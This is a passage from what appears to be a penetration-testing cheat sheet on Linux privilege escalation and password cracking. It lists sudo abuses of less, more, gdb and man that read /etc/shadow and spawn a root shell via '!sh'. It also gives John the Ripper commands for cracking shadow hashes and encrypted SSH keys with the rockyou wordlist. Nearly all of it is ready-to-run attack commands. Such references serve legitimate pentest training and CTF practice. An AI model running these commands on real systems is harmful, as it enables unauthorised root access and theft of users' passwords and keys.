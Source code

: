 ```
 
less

```
sudo less /etc/shadow

!sh
```

more
```
sudo more /etc/shadow

!sh
```
gdb

```
sudo gdb <anyfile>

!sh
```
man

```
sudo man -P "cat /etc/shadow" man
```

## Cracking Shadow and other hashes

**Shadow hash**

Shadow use SHA512 identify by $6$, SHA256 identify by  $5$ , MD5 identify by $1$

crack shadow 

```
$ unshadow /etc/passwd_file /etc/shadowfile > unshadow.john
```
```
$ john unshadow.john --wordlist=/usr/share/wordlists/rockyou.txt  
```
You can also add your custom wordlist

crack ssh key

```
ssh2john.py encrytedkey > key.john

$ john key.john --wordlist=/usr/share/wordlists/rockyou.txt   
```
base64

```
echo 'hash' | base64 -d
```
To identify hash
```
hashid <filename>
```
To check md5 hash of a file
```
md5sum <filename>
```

You can use john to crack almost anything.



```